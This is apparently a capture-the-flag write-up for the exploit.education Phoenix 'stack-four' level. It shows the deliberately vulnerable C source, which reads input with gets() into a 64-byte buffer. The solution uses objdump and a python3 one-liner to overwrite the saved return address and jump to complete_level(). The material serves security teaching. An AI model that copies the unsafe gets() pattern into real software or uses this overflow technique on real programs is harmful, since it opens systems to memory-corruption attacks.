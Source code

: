 # Stack Four

```c
/*
 * phoenix/stack-four, by https://exploit.education
 *
 * The aim is to execute the function complete_level by modifying the
 * saved return address, and pointing it to the complete_level() function.
 *
 * Why were the apple and orange all alone? Because the bananna split.
 */

#include <err.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define BANNER \
  "Welcome to " LEVELNAME ", brought to you by https://exploit.education"

char *gets(char *);

void complete_level() {
  printf("Congratulations, you've finished " LEVELNAME " :-) Well done!\n");
  exit(0);
}

void start_level() {
  char buffer[64];
  void *ret;

  gets(buffer);

  ret = __builtin_return_address(0);
  printf("and will be returning to %p\n", ret);
}

int main(int argc, char **argv) {
  printf("%s\n", BANNER);
  start_level();
}
```

## Solution

Similiar to the previous exercise we must reach `complete_level()`. This is done by overwriting the return address. Unlike the previous levels, the overflow target isn't directly adjacent to the buffer.
1. `objdump -t /opt/phoenix/amd64/stack-four | grep complete_level` to get the payload.
   1. `000000000040061d g     F .text	0000000000000018 complete_level`
2. Start overflowing with 64 characters and increase until the printf "and will be returning to _____" message starts changing. Then simply append the payload like the previous exercises. `000000000040061d` becomes `\x1d\x06\x40\x00\x00\x00\x00\x00`.
3. `python3 -c 'print("A"*88 + "\x1d\x06\x40\x00\x00\x00\x00\x00")' | /opt/phoenix/amd64/stack-four `